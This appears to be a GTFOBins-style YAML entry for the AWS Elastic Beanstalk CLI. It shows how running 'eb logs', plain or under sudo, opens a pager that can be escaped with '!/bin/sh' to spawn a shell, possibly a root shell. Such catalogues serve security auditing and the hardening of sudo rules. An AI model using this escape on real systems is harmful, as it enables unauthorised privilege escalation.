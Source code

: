 ```yaml
---
description: This invokes the default logging service, which is likely to be [`journalctl`](/gtfobins/journalctl/), other functions may apply. For this to work the target must be connected to AWS instance via EB-CLI. 
functions:
  shell:
     - code: |
        eb logs
        !/bin/sh
  sudo:
     - code: |
        sudo eb logs
        !/bin/sh
---
```

